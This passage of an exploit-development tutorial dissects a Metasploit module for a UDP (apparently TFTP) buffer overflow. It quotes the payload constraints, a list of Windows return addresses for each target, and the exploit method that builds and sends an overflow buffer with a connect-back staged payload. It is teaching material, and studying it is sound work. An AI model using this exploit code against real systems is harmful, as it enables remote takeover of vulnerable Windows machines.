 Payload  
```
'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        }
```
The payload is one of the key aspects we need to examine. This states that we have 210 bytes of space for our payload to reside in. Any larger and we may possibly run into issues of corruption or truncation of our exploit. Bad characters signify bytes that may impact our exploit. We need to ensure none of these characters are in our shellcode, and in this case it’s the almost universally bad null character ‘0x00’. For more information on bad characters search this site for writing basic buffer overflows. Finally we see something called stack adjustment. Essentially because we’re so restricted in space we need to utilize something called a staged payload. What we’re doing is only sending a small first instruction which is designed to connect back to us and get the main payload, which wouldn’t regularly fit. Because of this we need to adjust the stack pointer back 3500 bytes so it has room to actually write the payload without overwriting itself.

Targets  
```
'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ]
```

Metasploit has a wide variety of targets for many exploits, which really is mostly a wide variety of suitable return addresses for each operating system. Because they are often using system dll’s these addresses are not changed from computer to computer and ensures exploit compatibility. In our case we wish to use the return address donated by c0re, Windows XP SP3.

The Exploit  

```
  def exploit
    connect_udp
 
    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"
 
    udp_sock.put(sploit)
 
    disconnect_udp
  end
```
The main part all the rest has been leading up to, the exploit itself. Let’s go through it line by line to ensure we understand.
